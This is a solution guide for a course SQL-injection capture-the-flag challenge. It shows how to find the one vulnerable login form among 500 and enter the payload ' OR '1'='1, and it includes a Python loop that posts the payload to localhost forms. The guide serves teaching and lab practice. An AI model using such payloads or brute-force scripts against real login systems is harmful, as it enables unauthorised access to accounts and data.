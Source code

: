 # CSSE142 SQL Injection Challenge – Solution Guide

## Problem description
You are presented with a webpage that shows **500 usernames**, each with a password input field and login button.

Your objective:
> **Find and exploit one vulnerable login form using SQL injection to reveal the flag.**

Only **one** of the login forms is vulnerable.

## Step 1: Open DevTools

Open your browser's developer tools:

- Chrome: `F12` or `Ctrl + Shift + I`
- Firefox: `F12` or `Ctrl + Shift + K`

Then go to the **Console** tab.

---

## Step 2: Find the Vulnerable Form

In the console, run:

```
sessionStorage.getItem("vulnIndex")
```
This returns a number like "237", which tells you which form is vulnerable to SQL injection.

---

## 3: Locate That Form

On the page, scroll down to the corresponding form:
User 237: <username> | Password: [___________] [Login]

This is the one you want to target.

---

## Step 4: Inject Payload

In the password box for that form, enter the classic SQL injection:
```
' OR '1'='1
```

Then click the **Login** button.

This will cause the backend to run:

```
SELECT * FROM users WHERE username = 'xxx' AND password = '' OR '1'='1'
```

Which always evaluates to TRUE.

## Step 5: Capture the Flag
If successful, a JavaScript alert() will pop up with the flag.

## Optional: Brute Force with Script
If you couldn’t find the right form, you could automate it:

```
import requests

for i in range(1, 501):
    url = f"http://localhost:5000/login/{i}?vuln={i}"
    res = requests.post(url, data={"password": "' OR '1'='1"})
    if "FLAG" in res.text:
        print(f"Found vulnerable form at index {i}")
        break
```
